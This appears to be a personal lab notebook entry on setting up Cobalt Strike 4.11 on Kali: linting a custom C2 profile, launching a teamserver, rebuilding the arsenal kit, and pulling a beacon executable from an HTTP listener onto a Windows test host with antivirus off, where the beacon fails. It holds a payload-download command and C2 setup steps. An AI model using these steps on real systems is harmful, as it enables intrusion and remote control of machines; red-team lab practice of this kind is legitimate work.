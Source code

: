 #### 1. Things done
```
- copied old custom-cobalt to new /home/kali/tools/cobaltstrike_4.11/cobaltstrike/server
```



##### C2lint
```bash
./c2lint /home/kali/tools/cobaltstrike_4.11/cobaltstrike/custom-cobalt/Profiles/custom.profile
```
![[Pasted image 20250325173022.png]]
`updated` needed to enable `NAT` networking to update
![[Pasted image 20250325175935.png]]
`c2lint` results
![[Pasted image 20250325180026.png]]
#### starting teams server
```bash
./teamserver 192.168.179.129 passphrase /home/kali/tools/cobaltstrike_4.11/cobaltstrike/custom-cobalt/Profiles/custom.profile
```


##### rebuilding arsenal kit

![[Pasted image 20250325182219.png]]once recompiled with basic `arsenal kit` making `http` listener and hosting file at `/test` - **Initial testing is occuring against `guardian unofficial` with AV off***
![[Pasted image 20250325182944.png]]


```bash
wget http://192.168.127.129:80/test -UseBasicP -OutFile "C:\Users\blaster\Desktop\artifacttest.exe"
```

![[Pasted image 20250325183130.png]]n
beacon not working, going to have to try again tomorrow.